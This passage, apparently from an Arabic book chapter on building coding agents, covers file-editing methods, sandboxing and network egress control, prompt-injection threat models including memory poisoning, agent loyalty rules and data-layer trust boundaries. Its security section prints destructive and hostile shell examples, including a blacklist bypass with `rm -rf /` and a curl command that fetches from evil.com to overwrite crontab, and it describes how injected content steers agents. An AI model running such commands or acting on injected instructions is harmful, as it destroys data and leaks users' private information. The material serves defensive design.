لا تكمن صعوبة تحرير الملف في العملية نفسها، ولكن في كيفية إخبار النظام بكفاءة وموثوقية "ما يجب تغييره وكيفية تغييره" باستخدام LLM. يقارن الشكل 5-4 بين خمسة أنظمة لتحرير الملفات، مما يوضح التوتر الأساسي بين تعبير اللغة البشرية والتنفيذ الدقيق للآلة.



**وصف الفرق + تطبيق النموذج**: لا يحدد النموذج كيفية تحرير الملف بشكل مباشر؛ بدلاً من ذلك، فإنه ينشئ وصفًا للتغيير - والذي يمكن أن يكون نصًا مختلفًا مشابهًا لـ git diff (مخرج التنسيق بواسطة أمر `git diff`، يوضح "أي الأسطر تم حذفها وأيها تمت إضافتها")، أو هيكل عظمي للتعليمات البرمجية مع علامات الإغفال (باستخدام تعليقات مثل "تبقى دون تغيير هنا" لتخطي الأجزاء غير المعدلة). يتم بعد ذلك تسليم هذا الوصف إلى "تطبيق النموذج" المتخصص - عادةً LLM آخر وأصغر وأسرع - ويكون مسؤولاً عن دمجه مع الملف الأصلي لإنتاج الملف الجديد الكامل. يسمح هذا الفصل بين الاهتمامات للنموذج الرئيسي بالتركيز على منطق الكود عالي المستوى والنموذج المطبق للتركيز على عمليات النص ذات المستوى المنخفض. تكمن هشاشة التنفيذ الساذج في خطوة الدمج: عندما تكون هناك اختلافات طفيفة بين وصف التغيير وكود الملف الفعلي، فإنه يحتاج إلى تحديد ما إذا كانت تشير إلى نفس الموقع؛ عندما يكون هناك عدة مقتطفات برمجية متشابهة، فقد يتم دمجها في مكان خاطئ. المؤشر يمثل التطور المستمر لهذا النهج: يقوم النموذج الرئيسي بإخراج هيكل التعليمات البرمجية مع علامات الإغفال، ويقوم نموذج صغير سريع التطبيق مدرب خصيصًا بإعادة كتابة الملف الكامل، كما أن فك التشفير التخميني (باستخدام محتوى الملف الأصلي كمسودة للتحقق الموازي) يدفع سرعة الدمج إلى آلاف الرموز المميزة في الثانية - وقد اشترى الاستثمار الهندسي الموثوقية والسرعة لهذا النهج.

1. **استبدال السلسلة القديمة بالسلسلة الجديدة (Old-String → New-String)**: الأسلوب المعتمد في Claude Code. يوفر النموذج النص الأصلي المراد استبداله والنص الجديد البديل. ميزته الوضوح والموثوقية، لكن كلفته تكمن في وجوب إخراج كامل الكتل المراد حذفها.
2. **الاستهداف بأرقام الأسطر (Line-Number Target)**: يحدد النموذج أرقام الأسطر المحددة للحذف والإدراج (مثل "حذف الأسطر من X إلى Y وإدراج المحتوى الجديد").
3. **أوامر التحرير المتقدمة (Vim-style Editing)**: تعتمد أوامر محرر Vim لتوفير عمليات مثل النسخ والقص واللصق والنقل.
4. **مطابقة بداية السلسلة ونهايتها (Head/Tail Matching)**: تطوير لأسلوب الاستبدال، حيث يكتفي النموذج بإخراج الأسطر الأولى والأخيرة للكتلة المراد استبدالها دون الحاجة لإعادة كتابة الأسطر الوسطى، مما يجمع بين الموثوقية وكفاءة الرموز.

**نصيحة عملية.** ينقسم وكلاء البرمجة السائدون إلى معسكرين، كل منهما له الرائد الخاص به: رمز Claude يأخذ "السلسلة القديمة إلى السلسلة الجديدة" - الموثوقية أولاً، وسهولة التنفيذ، ولا حاجة إلى نموذج إضافي؛ لقد دفع المؤشر مسار تطبيق النموذج إلى أقصى حدوده — حيث دفع تكاليف التدريب والاستدلال على نموذج مخصص سريع التطبيق مقابل إنتاجية تحرير أعلى. إذا كنت تقوم ببناء وكيل خاص بك، فإن "السلسلة القديمة إلى السلسلة الجديدة" هي نقطة البداية الأكثر أمانًا؛ بالنسبة للتعديلات واسعة النطاق، فإن "بداية السلسلة + مطابقة النهاية" هي الحل الوسط الأكثر اقتصادا؛ لا يمكن الاعتماد على نهج رقم السطر إلا من خلال تكامل IDE العميق (حيث يحتفظ المحرر بتعيين مباشر لرقم السطر ويعيد توفير النموذج بعد كل تحرير) - وإلا فإن انحراف رقم السطر سوف يغرقه.

### أمن وكلاء البرمجة

ينظم هذا القسم دفاعات وكيل البرمجة في أربعة محاور مترابطة. نبدأ بـ **نموذج التهديد** لتحديد أخطر المخاطر، ثم نعرض **العزل بوصفه شبكة أمان** تضبط الشبكة ونظام الملفات والموارد. بعد ذلك ننتقل إلى **الحماية وقت التنفيذ** من خلال التحليل الدلالي للأوامر والتنفيذ الاستباقي لفحوص الأمان، ونختم بـ **الثقة والجهة التي يدين لها الوكيل بالولاء** عند تعدد الأطراف المفوِّضة، وبنقل حدود الثقة إلى طبقة البيانات حين لا يمكن الوثوق بالشفرة التي يولدها الذكاء الاصطناعي. وينطبق نموذج التهديد وحدود الثقة والولاء على الوكلاء عمومًا، بينما يختص العزل وتحليل الأوامر بوكلاء البرمجة بوجه أكبر.

ويطرح نموذج "الوكيل السيادي" هذا أيضًا تحديات أمنية خطيرة. يتمتع وكيل البرمجة بأذونات قراءة وكتابة الملفات وتنفيذ الأوامر والوصول إلى الشبكات، مما يعني أنه بمجرد حقنه بتعليمات ضارة، فإنه قد يتسبب في أضرار لا يمكن إصلاحها. لخص المطور والباحث المستقل سيمون ويليسون هذا الخطر من خلال كتابه الشهير "Lethal Triad" - عندما تكون العناصر الثلاثة موجودة، فإنها تشكل حلقة هجوم كاملة، مما يعرض النظام لخطر كبير:

1.  **الوصول إلى البيانات الخاصة** — يمكن للوكيل قراءة ملفات المستخدم ومديري كلمات المرور.
2.  **التعرض لمحتوى غير موثوق به** — قد تحتوي رسائل البريد الإلكتروني وصفحات الويب التي تمت معالجتها على حمولات ضارة.
3.  **القدرة على التواصل خارجيًا** — يمكنه إرسال رسائل البريد الإلكتروني وتنفيذ الأوامر.

يؤدي هذا إلى إغلاق حلقة الهجوم: تدخل التعليمات الضارة المخفية في محتوى غير موثوق به إلى الوكيل، وتدفعه إلى قراءة البيانات الخاصة، ثم تقوم بتصفيتها عبر القنوات الخارجية. لاحظ أن وجود العناصر الثلاثة يشكل خطورة بحد ذاته، دون أي شروط إضافية. وبناءً على ذلك، يضيف المؤلف بُعدًا رابعًا —**الذاكرة الدائمة**. وهذا ليس شرطًا ضروريًا رابعًا موازيًا، ولكنه مضخم للهجمات: يمكن للمهاجم أن يكتب تحيزات تبدو غير ضارة أو تعليمات ضارة في ذاكرة الوكيل طويلة المدى، حيث تظل كامنة عبر الجلسات ويتم تشغيلها في لحظة مناسبة - مما يحول هجومًا لمرة واحدة إلى تهديد يكمن في الانتظار ويتفاقم بمرور الوقت.

يمكن تلخيص هذه النقاط الأربع في أربعة أنواع من الحدود: حدود البيانات، وحدود ثقة المدخلات، وحدود تأثير المخرجات، وحدود الجلسات المتقاطعة. يغطي الوكيل المحلي ذو الإذن الكامل مثل OpenClaw جميع أبعاد المخاطر الأربعة، مما يجعل الحماية الأمنية تحديًا أساسيًا يجب على هؤلاء الوكلاء مواجهته.

وهذا يفسر أيضًا سبب اختيار الوكلاء التجاريين مغلقي المصدر (مثل Claude Cowork (وكيل Anthropic للأغراض العامة للعمل المعرفي، وإعادة استخدام البنية الوكلاءية لـ Claude، والقادرة على قراءة وكتابة الملفات المحلية وإكمال المهام متعددة الخطوات عبر تطبيقات مكتبية متعددة)) استراتيجيات أذونات متحفظة. ضد حقن الموجّهات، فإن تصفية المدخلات وحدها بالكاد تساعد. الهدف ليس التعرف على كل هجوم، ولكن التأكد من عدم حصول الوكيل الذي تم حقنه على فرصة لتنفيذ إجراء خطير. وهنا تحديدًا تظهر فائدة الحواجز الثلاث في الفصل الأول. ومقارنةً بالوكلاء الآخرين، تحتاج وكلاء البرمجة إلى الانتباه بوجه خاص إلى:

- **التحليل الدلالي للأوامر** — الانفجار التجميعي لأوامر Shell يجعل القوائم السوداء للكلمات الرئيسية عديمة الفائدة؛ يجب فهم التأثير الحقيقي للأمر على المستوى الدلالي (سيتم شرحه لاحقًا في هذا القسم)؛
- **عزل Sandbox والتحكم في خروج الشبكة** — تنفيذ التعليمات البرمجية هو سطح هجوم فريد لوكلاء البرمجة؛ سيتم تناول الخيارات الهندسية لمستويات العزل واستراتيجيات الخروج لاحقًا في هذا القسم؛
- **حماية الذاكرة الدائمة بين الجلسات** — يوسّع هذا الفصل تحليل «الثالوث القاتل» ليشمل الذاكرة طويلة الأمد. فكل ما يُكتب إليها ينبغي أن يخضع لمراجعة الثقة نفسها التي تخضع لها المدخلات الخارجية، حتى لا تُدفن تعليمة ضارة في `MEMORY.md` ثم تُفعَّل في جلسة لاحقة.

وتندرج هذه الحماية الثلاث ضمن طبقات التحقق والتنفيذ والبيانات على التوالي، مما يكمل نظام الدفاع من الفصلين السابقين. لا يمكن لهذه الاستراتيجيات القضاء على المخاطر بشكل كامل، ولكنها يمكن أن تقلل من مساحة الهجوم الخاصة بالوكيل.

**العزل كشبكة أمان: الاختيارات الهندسية لصندوق الحماية لتنفيذ التعليمات البرمجية.**

- **التحكم في خروج الشبكة.** هذا هو العنصر الأكثر أهمية الذي يتم التغاضي عنه بسهولة: لا توجد شبكة بشكل افتراضي، مع منح الوصول عند الطلب من خلال وكيل القائمة البيضاء إلى مجموعة محدودة من الوجهات (مصادر الحزم، ومواقع التوثيق، وواجهات برمجة التطبيقات التي تتطلبها المهمة صراحة). إذا نظرنا إلى البند 3 من الثالوث المميت - "القدرة على التواصل خارجيًا" - فإن التحكم في خروج الشبكة هو دفاع طبقة التنفيذ: حتى لو نجح حقن الموجّهات وقرأت التعليمات البرمجية الضارة البيانات الحساسة داخل صندوق الحماية، بدون مسار خروج، لا يمكن نقل البيانات. بالمقارنة مع محاولة التعرف على كل حقنة، فإن قطع قناة استخراج البيانات يعد خط دفاع أكثر حتمية.
- **نطاق عزل نظام الملفات.** يُركَّب دليل الشيفرة المصدرية للقراءة فقط (يعدّل الوكيل الشيفرة عبر أدوات التحرير، وتُكتب الرقع المولَّدة إلى القرص بعد المراجعة، أو تُركَّب نسخة منها في مساحة عمل قابلة للكتابة)، ويحمل دليل مساحة عمل منفصل قابل للكتابة المخرجات والملفات الوسيطة؛ أما ملفات الاعتماد (`~/.ssh`، والمفاتيح، والرموز) فلا تُركَّب داخل صندوق الحماية إطلاقًا.
- **حدود الموارد والمهلات.** قم بتعيين الحصص النسبية لوحدة المعالجة المركزية والذاكرة والقرص، بالإضافة إلى مهلة ساعة الحائط، للدفاع ضد الحلقات اللانهائية، والقنابل الشوكية (عملية تتكرر نفسها بسرعة حتى يتعطل النظام)، وعمليات الكتابة غير المحدودة على القرص. تفصيل عملي: يجب أن تؤدي المهلات وانتهاكات الحدود إلى إرجاع خطأ منظم إلى الوكيل ("تم إنهاء التنفيذ بعد 120 ثانية، وكان آخر إخراج...") بدلاً من إنهاء العملية بصمت، مما يمنح الوكيل فرصة لمراجعة استراتيجيته في المنعطف التالي.
- **التوفيق بين الجلسات المستمرة والعزلة.** يدعو القسم الأخير "استمرار الحالة في بيئة تنفيذ الأوامر" إلى الحفاظ على جلسات نهائية طويلة الأمد، بينما يدعو مبدأ العزل إلى بيئات يمكن التخلص منها - هناك توتر بين الاثنين. يتمثل أسلوب التسوية في **الحفاظ على الجلسة حية فقط داخل وضع الحماية**: يجب ألا تتجاوز الجلسة الطرفية أبدًا وضع الحماية، ويجب ألا تهرب حالة الجلسة مطلقًا إلى الجهاز المضيف. بالنسبة للسيناريوهات التي تتطلب الاسترداد عبر فترات زمنية طويلة (مثل بنية Sessionless المذكورة سابقًا)، فاعتمد على لقطات وضع الحماية أو "استمرار ملف مساحة العمل + إعادة بناء البيئة عبر البرامج النصية" لاستعادة الحالة، بدلاً من تمديد عمر وضع الحماية إلى أجل غير مسمى. بمعنى آخر، ما يستمر هو **أوصاف الحالة القابلة للتدقيق** (الملفات والبرامج النصية والبيانات)، وليس العمليات الجارية غير الشفافة.

**الأمان: التحليل الدلالي عبر القوائم السوداء للكلمات الرئيسية.**

جادل الفصل الأول بأن طبقة التحقق يجب أن تعتمد على الفهم الدلالي بدلاً من مطابقة الأنماط. يعد التحقق من صحة أوامر Shell هو التطبيق الأكثر تحديًا لهذا المبدأ. لا يمكن للقوائم السوداء للكلمات الرئيسية البسيطة التعامل مع الانفجار الاندماجي لـ Shell - يمكن للأوامر تجاوز أي قواعد ثابتة من خلال الأنابيب، والأغلفة الفرعية، والتوسع المتغير، وما إلى ذلك (على سبيل المثال، إذا تم حظر `rm`، فيمكن للمهاجم استخدام `$(echo rm) -rf /` للتجاوز). تستخدم أحزمة الإنتاج التحليل الدلالي: تحديد أنواع وسيطات كل أمر وقواعد التحليل، بما في ذلك العلامات التي تستهلك الوسائط التالية، والتعرف على أنماط الهجوم مثل العلامة التي تبدو غير ضارة والتي تخفي حمولة خطيرة في الوسيطة التالية. على سبيل المثال، يقوم `find / -name '*.log' -exec rm {} \;` بتضمين عملية حذف `rm` من خلال وسيطات أمر `find` المشروعة؛ مثال آخر هو `curl -o /etc/crontab http://evil.com/payload`، الذي يبدو أنه يقوم بتنزيل ملف ولكنه في الواقع يقوم بالكتابة فوق المهام المجدولة للنظام. يمكن للتحليل الدلالي تحديد هذه العمليات الخطيرة المتداخلة، في حين أن القوائم السوداء للأوامر البسيطة لا يمكنها التقاطها. آلية الأمان هذه القائمة على الفهم بدلاً من المطابقة هي تنفيذ عالي المستوى لوظيفة "القيد".

**التنفيذ التخميني: جعل الشيكات الأمنية "غير مرئية"**. هذا هو بالضبط تأثير آلية بوابة Sidecar من الفصل 4 على مستوى تجربة المستخدم - أوضح الفصل 4 سبب وجوب مراجعة العمليات الهامة بواسطة Sidecar بشكل مستقل عن السياق الرئيسي؛ يركز هذا القسم على جعل زمن الاستجابة لتلك المراجعة غير مرئي للمستخدم بشكل فعال. يتمثل النهج في فصل التقدم المرئي للمستخدم عن ترخيص التنفيذ: عندما يكون الوكيل على وشك تنفيذ استدعاء أداة، يعرض النظام تلميح تقدم في الواجهة (على سبيل المثال، "قراءة الملف `src/main.py`...") أثناء تشغيل فحص الأمان في الخلفية. هناك حاجة إلى توضيح هنا فيما يتعلق بالتشبيه الشائع الاستخدام: فهو يختلف عن التنفيذ التخميني لوحدة المعالجة المركزية - إذا كانت وحدة المعالجة المركزية قد أخطأت في التخمين، فيجب عليها تجاهل النتائج المحسوبة واستعادة الحالة؛ هنا، الإجراء الأولي هو مجرد **تلميح لواجهة المستخدم خالية من الآثار الجانبية**، والذي لا يغير الحالة الحقيقية. إذا فشل الفحص، فلا حاجة للتراجع؛ يتم استبدال التلميح ببساطة بـ "في انتظار التأكيد". في معظم الحالات، يكتمل فحص الأمان قبل أن يلاحظه المستخدم، لذلك لا يشعر المستخدم بأي تأخير إضافي؛ فقط عندما يكون التحديد السريع مستحيلًا، يتوقف النظام فعليًا وينتظر التأكيد. هذه هي قمة تصميم Harness: الأمان دون التضحية بتجربة المستخدم.

**من يخدم الوكيل: الولاء بموجب تفويض متعدد الأطراف.**

آليات الأمان المذكورة أعلاه تمنع "تنفيذ الأوامر بشكل ضار"؛ هناك مشكلة أمنية أكثر دقة —**الولاء الرئيسي**: **الجانب الذي يقف فيه الوكيل فعليًا**. يتم تدريب النماذج بمبدأ افتراضي ساذج - "كل من يتحدث معي، سأبذل قصارى جهدي لمساعدته" - لكن الوكلاء في العالم الحقيقي غالبًا ما يعملون بموجب **تفويض متعدد الأطراف**: يتصرفون نيابة عن مدير أثناء التعامل مع أطراف ثالثة تتعارض مصالحها. الوكيل الذي يتفاوض على السعر نيابةً عنك لا يواجه "مستخدمًا بحاجة إلى المساعدة" بل **خصمًا متفاوضًا**. هنا، يعد "مساعدة من يتحدث" أمرًا افتراضيًا خطيرًا - حيث يمكن للطرف المنافس أن يبدأ في التأثير على وكيلك ببساطة عن طريق إشراكه.

يكشف وضع النماذج الحدودية في هذا الموقف عن **طيف ولاء** واضح، مع فشل كلا الطرفين[^ch5-1]: من جهة، **صادق جدًا** — تسليم المعلومات الخاصة للمدير (على سبيل المثال، "النتيجة النهائية لدينا هي 12000") مباشرة إلى الخصم، والرضوخ بعد بضع جولات من الضغط؛ وعلى الجانب الآخر، **مشبوه جدًا** — يرفض حتى الطلبات المشروعة للمدير، وبالتالي يفشل في المهمة. الجزء الصعب هو أن الفشلين يتأرجحان: قم بسد التسريبات وتنزلق نحو الرفض المفرط - فمن الصعب الحصول على كليهما.

تكتسب هذه الفكرة أهمية خاصة في وكلاء البرمجة. فالمحتوى غير الموثوق المقروء من المستودع، ومخرجات الأدوات، والتعليمات الواردة من خادم MCP خارجي، كلها أطراف قد تحاول تغيير ولاء الوكيل؛ إذ إن **حقن الموجّهات محاولة لتحويل الوكيل عن تعليمات صاحبه** (الفصلان الثاني والرابع). لذلك يجب أن تحدد منظومة التشغيل بوضوح لمن يدين الوكيل بالولاء: تكون الأولوية القصوى لتعليمات صاحب المهمة، أما محتوى الأطراف الخارجية فيُعامل افتراضيًا بوصفه «بيانات يمكن الاستعانة بها، لا تعليمات واجبة التنفيذ». ومن قواعد الولاء الفعالة في موجّه النظام: حماية معلومات صاحب المهمة، بما فيها حقيقة وجودها؛ وعدم سرد التفاصيل المحمية عند الرفض، لأن السرد نفسه قد يسربها؛ وعدم خلط المصالح الخاصة بالمواقف العامة؛ وتنفيذ التعليمات الواضحة والمحددة لصاحب المهمة وحده؛ والثبات أمام الضغط المتكرر. وباختصار، تمنح منظومة التشغيل النموذج موقفًا لا يملكه افتراضيًا: **الولاء لصاحب المهمة، والحذر من الأطراف الخارجية**.

[^ch5-1]: يمكن العثور على التقييم الكامل لنطاق الولاء ومدونة قواعد السلوك في Li وBojie وNoah Shi. *من هو وكيل أعمالك؟ الولاء الرئيسي متعدد الأطراف في وكلاء LLM.* arXiv:2606.30383, 2026.

**حين لا تكون الشفرة التي يولدها الذكاء الاصطناعي موضع ثقة: انقل حدود الثقة إلى طبقة أدنى.**

تزيد شفرة التحقق السابقة احتمال التزام الوكيل بالقواعد، لكن الاحتمال لا يكفي في عمليات البيانات عالية الخطورة. هنا يجب نقل القيود من مجرد التعويل على حسن تصرف الوكيل إلى فرضها داخل طبقة البيانات نفسها. ويذهب الطرح الأشد تحفظًا[^ch5-2] إلى **اعتبار طبقة التطبيق غير موثوقة أصلًا، وإنزال ثوابت سلامة البيانات إلى طبقة أدنى**.

على مدى عقود تمركزت حدود السلامة غالبًا في **طبقة التطبيق**: تحدد شفرة المعالج من يحق له إجراء العملية وما القيم المقبولة، ثم تثق قاعدة البيانات في هذه الشفرة. لكن المعالجات التي يولدها نموذج لغوي قد تسقط صلاحية أو فحص نزاهة كان المبرمج سيضيفه بداهة، كما قد يعمل الوكيل المستقل مباشرة على بيانات الإنتاج، فتنهار فرضية الثقة. ويعالج التصميم المقترح ذلك بجعل كل كيان بيانات يحمل قواعد صلاحيات تصريحية ومدققات للمدخلات ووصفًا للعواقب داخل **مخطط يراجعه الإنسان**، ثم يفرض مسار التنفيذ هذه القواعد عند **كل عملية كتابة**.

والعنصر الحاسم هو **سياق الوصول** المصاحب لكل عملية. فالمعالج المولّد يعمل بصلاحيات المستخدم الذي يخدمه، والوكيل المستقل يعمل بهوية مقيدة خاصة به، وفق مبدأ أقل نطاق. وبدل الاكتفاء بالأمل في التزام الوكيل، تعامله البنية كطرف ذي صلاحيات محدودة لا يستطيع تجاوزها حتى إن تعرّض للاختراق.

عند اختبار الحلول بالمجموعة نفسها من الموجّهات، لم تسمح هذه الآلية **بأي عملية كتابة تخالف الثوابت المعلنة**. في المقابل، مرّرت الحلول المعتمدة على SQL أو فحوص النموذج اللغوي أو الموجّهات الدستورية أو الاعتراض عند حدود الإجراء عددًا تراوح بين بضع مخالفات وعشرات منها. فالضمان هنا ليس أن العملية «مرجّح أن تكون صحيحة»، بل أن مخالفة القيد تصبح غير ممكنة، بكلفة إضافية تقارب مللي ثانيتين لكل كتابة. لكن هذا الضمان مشروط بطبيعة الحال: يجب أن يعبّر المخطط عن الثوابت المطلوبة كلها، وأن يمنع النشر أي مسار يتيح للطبقة غير الموثوقة تجاوز طبقة التخزين والاتصال بقاعدة البيانات مباشرة. ويقود ذلك إلى مبدأ معماري مهم لوكلاء البرمجة: **إذا كان مولّد الشفرة ومشغّلها كلاهما غير موثوق، فلا تضع القيود الموثوقة داخل الشفرة المولّدة؛ ضعها في طبقة أدنى يراجعها البشر**. وهذه هي الصيغة النهائية لمبدأ «القيود قبل التوجيه» من الفصل الأول، مطبقةً على طبقة البيانات.

[^ch5-2]: يمكن العثور على هذا التصميم والتقييم لـ "تحريك حدود الثقة أسفل طبقة التطبيق" (بما في ذلك المقارنة الكاملة لأعداد الانتهاكات عبر الحلول المختلفة) في Li, Bojie. *لم تعد طبقة التطبيق موثوقة: فرض ثوابت البيانات أسفل التعليمات البرمجية المكتوبة بواسطة الذكاء الاصطناعي ووكلاء الذكاء الاصطناعي.* 2026 (قريبًا).

## الشفرة: القدرة الفوقية للوكيل العام

أظهر القسم السابق كيفية إنشاء وكيل ترميز موثوق به — بدءًا من الهندسة المعمارية وحتى تنفيذ الأدوات وحتى هندسة منظومة التشغيل. لكن قيمة توليد التعليمات البرمجية تمتد إلى ما هو أبعد من كتابة البرامج.

> **ما هي "القدرة الوصفية"؟** القدرة العادية هي قدرة الوكيل على القيام بشيء محدد — الإجابة على سؤال، أو الاتصال برقم API معين، أو إنشاء جزء من النص. **القدرة الوصفية** هي قدرة "يمكنها إنشاء قدرات أخرى": يستخدمها الوكيل لكتابة أدوات جديدة، وقيود جديدة، وأشكال جديدة من التعبير بسرعة لإنجاز مهمة، دون الحاجة إلى أن تكون جميع القدرات مبنية مسبقًا. يعد إنشاء التعليمات البرمجية على وجه التحديد بمثابة قدرة وصفية - فهي دقيقة وقابلة للتنفيذ وقابلة للتركيب، مما يسمح لها بإنتاج أدوات جديدة (البرامج النصية، وتسلسلات استدعاء API)، وقيود جديدة (التأكيدات، وقواعد التحقق من الصحة)، وأشكال جديدة من التعبير (نماذج HTML، وعروض PPT، وإطارات الفيديو).

لهذا السبب، فإن رمز الدور الذي يلعبه نظام الوكيل يتجاوز مجرد "كتابة البرامج". توضح الأقسام الستة التالية، واحدًا تلو الآخر، ستة اتجاهات تنطبق فيها هذه القدرة الوصفية خارج نطاق البرمجة. هذه الاتجاهات الستة ليست مجرد قائمة مسطحة؛ إنها تتقدم من الداخل إلى الخارج، ويتم تنظيمها حسب الكائن الذي يتم تطبيق القدرة الوصفية عليه:

1.  **التفكير نفسه**—استخدام التعليمات البرمجية لاستبدال استدلال اللغة الطبيعية المعرض للخطأ (أدوات التفكير)؛
2.  **قواعد العمل**—ترميز السياسات الغامضة كقيود قابلة للتنفيذ (قيود قواعد العمل)؛
3.  **عرض المحتوى** — إنشاء عروض PPT ومقاطع الفيديو والعناصر المرئية (إنشاء الوسائط المتعددة)؛
4.  **واجهات النظام**—سد واجهات برمجة التطبيقات غير المتجانسة والتكيف تلقائيًا مع تنسيقات البيانات المتطورة (محولات النظام)؛
5.  **واجهات المستخدم**—إنشاء النماذج والواجهات التفاعلية ديناميكيًا (واجهة المستخدم التوليدية)؛
6.  **الوكيل نفسه** — يستخدم التعليمات البرمجية لإنشاء وكلاء جدد أو إصلاحهم، وبالتالي تمكين التمهيد.

### البرمجة كأداة للتفكير

نماذج LLM متميزون في فهم وتوليد اللغة الطبيعية، لكنهم ضعفاء بشكل أساسي في الحساب الدقيق، والتلاعب الرمزي، والاستنتاج المنطقي الصارم. السبب: إن تفكير النموذج احتمالي وتقريبي بطبيعته، بينما تتطلب المشكلات الرياضية والمنطقية إجابات حتمية ودقيقة. إحدى المقارنة الملموسة توضح هذه النقطة:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

دع LLM يكون مسؤولاً عن فهم المشكلة وكتابة الكود، ودع مفسّر الشفرة يكون مسؤولاً عن الحساب الدقيق - يتيح تقسيم العمل هذا لكل فرد الاستفادة من نقاط قوته.

قدم ستيفن ولفرام، مبتكر Mathematica، رؤية عميقة لهذه المسألة. فقبل ظهور النماذج اللغوية الكبيرة كانت هناك أنظمة تجري حسابات رياضية دقيقة بواسطة **الحساب الرمزي**، أي معالجة التعبيرات في صورتها الرمزية بدل تحويلها مبكرًا إلى قيم عددية تقريبية. فالحاسبة العادية قد تقرّب $\sqrt{2}$ إلى 1.414، بينما يحتفظ نظام الحساب الرمزي بالصيغة الدقيقة $\sqrt{2}$ ولا يحولها إلى عدد عشري إلا عند الحاجة. وينتمي Wolfram Alpha إلى هذه الفئة؛ يدخل المستخدم مسألة رياضية فيعيد النظام إجابة دقيقة. لكن قدرته على فهم اللغة الطبيعية هشة ومحدودة، لأنه يعتمد على محلل نحوي مضمّن لا يتعرف إلا إلى طائفة ضيقة من الصياغات؛ وقد يكفي تغيير بسيط في السؤال لإفشال التحليل، فضلًا عن عجزه عن معالجة الاستدلال متعدد الخطوات في المجالات المفتوحة. وهنا تكمل النماذج اللغوية الكبيرة هذه الأنظمة: فهي تجيد فهم الصياغات الطبيعية المتنوعة لكنها لا تجيد الحساب الدقيق. لذا يتولى النموذج فهم السؤال واستخراج بنيته الرياضية أو المنطقية وتحويلها إلى لغة صورية، مثل لغة Mathematica أو مكتبة SymPy في Python، ثم يحيلها إلى محرك حساب رمزي أو محلّل قيود متخصص للحصول على نتيجة دقيقة.

> **التجربة 5-1 ★★: استخدام أدوات إنشاء التعليمات البرمجية لتحسين القدرة على حل المشكلات الرياضية**
>
> **هدف التجربة**: التحقق من تحسين دقة التفكير الرياضي للوكيل عندما يحصل على مساعدة من مفسّر الشفرة.
>
> **المنهج الفني**: تجهيز الوكيل ببيئة Python معزولة تضم مكتبات رياضية مثل SymPy وNumPy وSciPy. وعندما يواجه مسألة رياضية، يحولها إلى شفرة Python: تستخدم SymPy للحساب الرمزي، كالتفاضل والتكامل وحل المعادلات، وتستخدم SciPy للتحسين العددي، وNumPy لعمليات المصفوفات. ثم تُنفذ الشفرة المولدة داخل البيئة المعزولة لإرجاع نتيجة دقيقة.
>
> **معايير القبول**: التقييم باستخدام مسائل بأسلوب AIME (على غرار اختبار الرياضيات الدعوي الأمريكي). قارن دقة الاستدلال المبني على تسلسل الأفكار النقي مع الاستدلال بمساعدة الكود؛ يجب أن يحقق الوضع المدعوم بالكود دقة أعلى بكثير. تحقق مما إذا كان الكود يستخدم المكتبات الرياضية بشكل صحيح وما إذا كانت عملية الحل واضحة منطقياً.
>
> **التجربة 5-2 ★★: استخدام أدوات إنشاء التعليمات البرمجية لتحسين القدرة على التفكير المنطقي**
>
> **هدف التجربة**: تقييم قدرة الوكيل على إجراء التفكير المنطقي بمساعدة تعليمات برمجية لحل القيود.
>
> **المنهج الفني**: قم بتجهيز الوكيل بمفسّر الشفرة الذي يحتوي على مكتبة القيود python. يترجم الوكيل الألغاز المنطقية، مثل مسائل الفرسان والأشرار، إلى نماذج قيود رسمية: فهو يحدد المتغيرات (هوية كل فرد من سكان الجزيرة)، وترميز قواعد مثل "الفرسان يقولون الحقيقة" كقيود، ويستدعي الحل للعثور على مهمة مُرضية.
>
> **معايير القبول**: قم بالتقييم باستخدام [مجموعة بيانات K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). يجب أن يحقق الوضع المدعوم بالكود دقة حل تزيد عن 90%، وهي أعلى بكثير من وضع التفكير النقي.
>

تكشف التجربة أيضًا عن نمط أعم: تتقاسم منظومة التشغيل والنموذج العبء بينهما. فإذا كان النموذج قويًا أمكن أن تصبح المنظومة أخف، لأنه يستدل بطريقة صحيحة من تلقاء نفسه فتتضاءل فائدة الحل البرمجي. وإذا كان أضعف، وجب على المنظومة أن تتحمل عبئًا أكبر، فتنقل المنطق الحاسم إلى أدوات حاسمة وقيود قابلة للتنفيذ لضمان الصحة. ولهذا تستخدم التجربة نموذجًا أضعف عمدًا لتكبير الفارق: يخطئ الاستدلال الخالص مرارًا في النموذج الضعيف، فترفع المساعدة البرمجية الدقة بوضوح؛ أما نموذج الاستدلال القوي فقد يحل الألغاز من دونها، فتقترب فائدتها من الصفر. لذلك تتحدد سماكة منظومة التشغيل بحدود قدرة النموذج، وهذه نقطة يسهل إغفالها: **منظومة التشغيل نفسها قد تقود إلى استنتاجات متعاكسة حين تُقرن بنماذج متفاوتة القوة**.

### التعليمات البرمجية كقيد لقواعد العمل

يعد هذا القسم ردًا مباشرًا على قسم هندسة منظومة التشغيل الموجود سابقًا في هذا الفصل. أحد المبادئ الأساسية للأداة هو "القيود: مشفرة، غير موثقة" - تحويل القواعد من وثائق اللغة الطبيعية إلى تعليمات برمجية قابلة للتنفيذ، مما يجعلها قيودًا إلزامية على سلوك النظام بدلاً من المبادئ التوجيهية الاستشارية. يتيح إنشاء التعليمات البرمجية للوكيل إكمال عملية التحويل هذه بشكل مستقل.

إن قواعد العمل، وسير العمل، ومنطق القرار الموصوفة باللغة الطبيعية فقط مليئة بالغموض. ما هو "طلب استرداد الأموال بشكل معقول"؟ ما الذي يعتبر "حالة طوارئ"؟ تقاوم الحدود تعريف اللغة الطبيعية - تبدو عبارة "قابلة للاسترداد خلال 7 أيام من الشراء" واضحة، ولكن هل تلك أيام تقويمية أم أيام عمل؟ هل تعني كلمة "شراء" تقديم الطلب أو الشحن؟ وعلى النقيض من ذلك، فإن الكود هو تمثيل لا لبس فيه وقابل للتنفيذ للمعرفة - فهو إما يعمل أو يلقي خطأ؛ لا يوجد بينهما.

**التعبير الدقيق عن قواعد العمل المعقدة.**

**قواعد اللغة الطبيعية مقابل القواعد المقننة: متكاملة وغير قابلة للتبديل**

